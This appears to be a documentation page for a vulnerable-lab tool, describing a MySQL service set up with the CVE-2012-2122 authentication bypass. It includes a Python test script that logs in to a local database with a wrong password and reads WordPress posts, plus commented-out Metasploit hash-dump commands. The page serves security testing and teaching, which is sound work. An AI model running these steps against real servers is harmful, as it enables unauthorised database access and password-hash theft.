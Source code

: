 MySQL Authentication Bypass.

### Usage

Example config:

```yaml
applications:
  - type: mysql
    vulnerabilities:
      - CVE-2012-2122

```

### Test with custom script

```python
import pymysql

connection = pymysql.connect(
    host='127.0.0.1',
    user='wordpress',
    password='wordpressssssssssssssssssssssssssss',
    database='wordpress',
    port=3307,
    cursorclass=pymysql.cursors.DictCursor
)
print(connection.cursor().execute("SELECT * FROM wp_posts"))
```


[//]: # (### Test with Metasploit)

[//]: # ()
[//]: # (To exploit this vulnerability with Metasploit, use the `scanner/mysql/mysql_authbypass_hashdump` module.)

[//]: # ()
[//]: # (!!! example "Example")

[//]: # ()
[//]: # (    Open the msfconsole and run these commands &#40;update the variables accordingly&#41;:)

[//]: # (    ```shell)

[//]: # (    use scanner/mysql/mysql_authbypass_hashdump)

[//]: # (    set RHOSTS 127.0.0.1)

[//]: # (    set RPORT 3307)

[//]: # (    set USERNAME wordpress)

[//]: # (    run)

[//]: # (    ```)
